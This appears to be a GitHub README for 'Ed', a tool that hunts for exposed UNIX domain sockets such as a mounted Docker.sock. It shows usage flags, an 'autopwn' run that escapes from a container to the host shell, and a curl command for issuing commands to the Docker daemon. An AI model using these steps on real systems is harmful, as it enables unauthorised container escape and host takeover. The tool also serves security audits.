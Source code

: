 # ed
Ed is a tool used to identify and exploit accessible UNIX Domain Sockets

# What does it do?
Ed is a binary to help you find and exploit accessible UNIX domain sockets on a container or host. This is useful for hunting Docker.sock when it has been mounted to a non-default location and or not mounted with the default name i.e  "/var/run/Docker.sock".

# Why ed?
Finding exposed UNIX domain sockets, especially Docker.sock, is very useful ;) Ed can be useful in a DevOps process to ensure that Containers do not have any unnecessarily exposed sockets.

# Usage
Ed can be used to look for plain 'ol UNIX domain sockets, UNIX domain sockets that respond to HTTP requests or UNIX domain sockets that behave like Docker.sock. Ed by default searches from the CWD. To use Ed, get the binary on the host and use the following options:

 ```
  ./ed -h
[+] Hunt 'dem Socks
Usage of ./ed:
  -autopwn
        Attempt to autopwn exposed sockets
  -docker
        Hunt for docker.sock
  -http
        Hunt for Available UNIX Domain Sockets with HTTP
  -interfaces
        Display available network interfaces
  -json
        Return output in JSON format
  -path string
        Path to Start Scanning for UNIX Domain Sockets (default ".")
  -socket
        Hunt for Available UNIX Domain Sockets (default true)
  -verbose
        Verbose output

```

Example: Autopwn exposed Docker Domain Socket

```
root@2ae7f389d44c:/app# ./ed -path=/ -autopwn=true
[+] Hunt 'dem Socks
[+] Hunting Down UNIX Domain Sockets from: /
[*] Valid Socket: /tmp/docker.mock
[+] Attempting to autopwn
[+] Hunting Docker Socks
[+] Attempting to Autopwn:  /tmp/docker.mock
[*] Getting Docker client...
[*] Successfully got Docker client...
[+] Attempting to escape to host...
You are now on the underlying host
/ # 
/ # exit
[*] Successfully exited TTY
[+] Finished
```

 Example: Look for exposed Docker.sock
 
 ```
 root@2ae7f389d44c:/app# ./ed -path=/    
[+] Hunt 'dem Socks
[+] Hunting Down UNIX Domain Sockets from: /
[*] Valid Socket: /run/docker.sock
 
 ```
 
 And now that you have found an exposed Docker socket, you could go ahead and issue commands to the Docker daemon using CURL:
 
 ```
 root@70a7cf3d4f93:/app# curl --unix-socket  /var/run/docker.sock http:/docker/info
 ..l00t
 ```
 
 # Testing
Ed can be tested with Docker, WARNING, mouting Docker.sock into containers is a very bad idea but if you want to test Ed, you can with the following:

```
docker-compose build && docker-compose up
...
worker_1_fd52bdee04ce | [+] Hunt 'dem Socks
worker_1_fd52bdee04ce | [+] Hunting Down UNIX Domain Sockets from: /
worker_1_fd52bdee04ce | [*] Valid Socket: /run/docker.sock
ed_worker_1_fd52bdee04ce exited with code 0

```

# Demo

[![asciicast](https://asciinema.org/a/oUkKmXvOGrT9QVbw8iQlbUxpA.png)](https://asciinema.org/a/oUkKmXvOGrT9QVbw8iQlbUxpA)
 
 # License
 Ed is licensed under a Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International License (http://creativecommons.org/licenses/by-nc-sa/4.0).
